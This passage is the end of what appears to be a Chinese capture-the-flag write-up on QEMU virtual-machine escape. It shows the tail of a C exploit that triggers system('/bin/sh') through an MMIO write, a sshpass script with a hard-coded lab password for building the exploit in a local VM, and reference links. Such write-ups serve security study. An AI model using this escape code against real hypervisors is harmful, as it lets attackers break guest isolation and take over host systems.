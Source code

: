 ```c
    // call system
    mmio_write(3 << 2, binsh[1]);

    return 0;
}

```

### attachs

#### compile.sh

用了 sshpass 来传

```bash
#!/bin/sh

sshpass -p "passw0rd" scp -P 5555 /mnt/exp.c ubuntu@localhost:/home/ubuntu/exp.c
sshpass -p "passw0rd" ssh -p 5555 ubuntu@localhost "cd /home/ubuntu && gcc -w -s -static -o3 exp.c -o exp"
sshpass -p "passw0rd" scp -P 5555 ubuntu@localhost:/home/ubuntu/exp .
```



## References

[虚拟机逃逸初探(更新中) - l0tus' blog](https://l0tus.vip/cn/qemu_escape/)

[Qemu逃逸初识 | S1nec-1o's B1og](https://s1nec-1o.github.io/2025/05/04/Qemu逃逸初识/index.html)